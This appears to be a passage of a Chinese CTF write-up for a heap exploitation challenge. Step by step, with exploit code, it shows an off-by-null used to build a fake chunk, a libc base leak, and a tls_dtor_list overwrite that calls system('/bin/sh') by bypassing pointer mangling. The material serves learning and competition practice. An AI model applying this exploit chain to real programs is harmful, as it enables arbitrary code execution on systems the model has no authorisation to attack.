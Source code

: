 ```python
post_note(b'test2',b'test',0x8,10)
s(p64(key+0x8))

poweroff(10)
#debu()
inter()
```


- **将fake_chunk的size写在0xb0的tcache_bin上，大小为0x500，且使得fake_chunk的地址最低字节为`\x00`**
```python
setlocale(10)
register(b'test1',b'test',1,1024,10)
register(b'a'*0x98+b'\x01\x05',b'b'*0x10,1,1024,10)
```

![OrSHxg.png](https://ooo.0x0.ooo/2023/11/28/OrSHxg.png)

- **将test2的用户信息保存在fake_chunk的数据区域，注册一个test3用户用于触发off by null，使得test3->data_addr 为fake_chunk 0x55f709cb9900，再init root1，是为保证free fake_chunk 时，pre_size检查通过。**

```python
register(b'test2',b'test',1,48,10)
register(b'test3',b'test',1000,944,10)
root1 = get_passwd()
init(10)
```

![OrSLJB.png](https://ooo.0x0.ooo/2023/11/28/OrSLJB.png)

- **将fake_chunk free后，再用一个init root2将0x500的fake_chunk申请回来 ，此时root2可以修改test2 的用户信息。**

```python
logoff(b'test3',b'test',10)
sleep(2)
root2 = get_passwd()
init(10)
```

![OrSEfs.png](https://ooo.0x0.ooo/2023/11/28/OrSEfs.png)

- **将root1 从链表中删除后，用标准错误输出来泄露libc的基地址，随后可以得到`fs_base+0x30`等地址，将加密后的函数指针和参数放到`fs_base+0x38`位置，`fs_base+0x30`位置清空，`tls_dtor_list`位置写`fs_base+0x38`。**

```python
logoff(b'root',root1,10)
show(b'root',root2,2)

#debu('b *$rebase(0x2d4e)')

libc_base = get_addr()-0x1f6ce0
print("libc_base : ",hex(libc_base))
func_list = libc_base-0x2910
print("func list : ",hex(func_list))
key = libc_base-0x2890
print("key : ",hex(key))
bin_sh = libc_base+0x1B51D2
print("bin sh : ",hex(bin_sh))
system_addr = libc_base+0x4ebd0
print("system : ",hex(system_addr))


post_note(b'root',root2,0x48,10)
s(b'a'*0x20+b'test2   :test         :0       \x00'+p64(key))
post_note(b'test2',b'test',0x18,10)
s(p64(0x0)+p64(rol(system_addr,0x11))+p64(bin_sh))

```